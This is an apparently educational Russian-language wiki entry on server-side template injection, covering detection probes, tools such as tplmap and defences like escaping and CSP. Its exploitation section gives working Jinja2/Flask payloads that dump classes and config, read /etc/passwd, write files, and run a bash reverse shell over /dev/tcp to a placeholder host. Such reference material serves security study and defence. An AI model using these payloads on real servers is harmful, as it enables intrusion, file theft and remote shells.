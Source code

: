 # уязвимость/атака

## Описание
SSTI (server side template injection) - внедрение шаблонов на стороне сервера.
Механизмы шаблонов широко используются веб-приложениями для представления динамических данных через веб-страницы и электронные письма. Небезопасное встраивание пользовательского ввода в шаблоны позволяет внедрить шаблон на стороне сервера. Template Injection можно использовать для прямой атаки на внутренние компоненты веб-серверов и получения удаленного выполнения кода (RCE), превращая каждое уязвимое приложение в потенциальную опорную точку.

## Классификация


Client-side (CS) / Server-side Template Injection (SS)

SSTI различается по типу установленного шаблонизатора: 
- Smarty (PHP)
- Mako (Python)
- Apache Velocity (Java)
- jinja2 (Python)
- Twig (PHP)

[Link](https://www.youtube.com/watch?v=3cT0uE7Y87s)
## Условия
- ОС: любая
- язык: зависит от шаблонизатора (python, php, java)
- компоненты: фреймворк
- настройки: разные


## Детектирование


Для детектирования можно использовать tplmap и ручное тестирование путем ввода различных шаблонов, например:
`{{  7*7  }}`

`{{ 7 * '7'}}`

и т.д. 

Выполнение кода, введенного в шаблоне, сигнализирует о наличии данной  уязвимости.
В некоторых случаях одно выражаение может приводить к разным ответам сервера (в зависимость от того, какой шаблонизатор используется). Например, `{{7*’7′}}` вернёт 49, если используется Twig, 7777777, если используется Jinja2 и не вернёт ничего, если шаблонизатор не используется.


`![Рисунок 1](https://1.bp.blogspot.com/-txouq1ZZJw4/Vayv3Np5VGI/AAAAAAAAAFY/6zY9F6SFSEY/s640/Screen%2BShot%2B2015-07-20%2Bat%2B09.21.56.png)`

## Информация:


https://portswigger.net/blog/server-side-template-injection
https://nvisium.com/blog/2015/12/07/injecting-flask.html
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
https://www.securitylab.ru/analytics/480275.php
https://defcon.ru/web-security/3840/




## Эксплуатация


### Дамп всех используемых классов (Dump all used classes)


`{{ [].class.base.subclasses() }}`

`{{''.class.mro()[1].subclasses()}}`

`{{''.__class__.__mro__[2].__subclasses__()}}`

### Дамп всех переменных конфигурации (Dump all config variables)


	{% for key, value in config.iteritems() %}
		<dt>{{ key|e }}</dt>
   		<dd>{{ value|e }}</dd>
	{% endfor %}

### Чтение из удаленных файлов (Reading remote files)


`''.__class__.__mro__[2].__subclasses__()[40] = File class`

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`

`{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}`



### Запись в удаленные файлы (Writing into remote files)
`{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt',`

`'w').write('Hello here !') }}`



### Удаленное выполнение кода (RCE)


`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from`

`subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config`

`{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config`

`{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to`

`evil host`










## Инструменты


Tplmap - это инструмент от [epinna](https://github.com/epinna), который помогает эксплуатировать уязвимость SSTI с помощью ряда методов выхода из песочницы, чтобы получить доступ к базовой операционной системе. Он может использовать несколько контекстов кода и сценариев слепого внедрения. [Github](https://github.com/epinna/tplmap)


search.py скрипт от DoubleSigma. [Link](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py).


## Ущерб


Получение информации с сервера, к которой мы не имеем доступа. Возможность удаленного внедрения кода в серверный скрипт.


## Защита
### Основные меры


Экранирование - технически реализация экранирования заключается в замене определенных символов их безопасными аналогами - html-кодами. Как правило, считаются опасными и подлежат замене 5 символов - это кавычки, знаки больше/меньше и амперсанд, то есть `&`, `<`, `>`, `"`, `'` 


`& --> &amp;`
 
` < --> &lt;`

` > --> &gt;`

` " --> &quot;`

` ' --> &#x27;   ( &apos;  не рекомендуется)`

` / --> &#x2F; `


Политика защиты контента (CSP) - в качестве последней линии защиты вы можете использовать Content Security Policy (CSP), чтобы уменьшить серьезность любых уязвимостей XSS, которые все еще возникают.


Политика защиты контента (CSP) — это дополнительный уровень безопасности, который помогает обнаружить и смягчить некоторые виды атак, в том числе межсайтовый скриптинг (XSS) и инъекцию данных. Эти атаки используются для всего, от кражи данных до порчи сайтов и распространения вредоносного ПО.


### Превентивные меры
Ограничение доступа к внутренней инфраструктуре для потенциально подверженных SSRF серверов.
Обработка данных, введенных пользователем. 


Защита от уязвимостей локального включения файлов (LFI) . Это означает, что вы не должны позволять пользователям контролировать путь к такому файлу или его содержимое.
## Дополнительно
http://xgu.ru/wiki/%D0%A8%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD%D0%B8%D0%B7%D0%B0%D1%82%D0%BE%D1%80 - шаблонизаторы


## Обход защиты


Обход фильтров (Filters bypass) - разработчики включают в web-приложения специальные фильтры для проверки содержимого запросов пользователя на наличие «инородных» данных и тем самым усложняя задачу нарушителя. Однако существуют и появляются новые методы, позволяющие обмануть проверку.
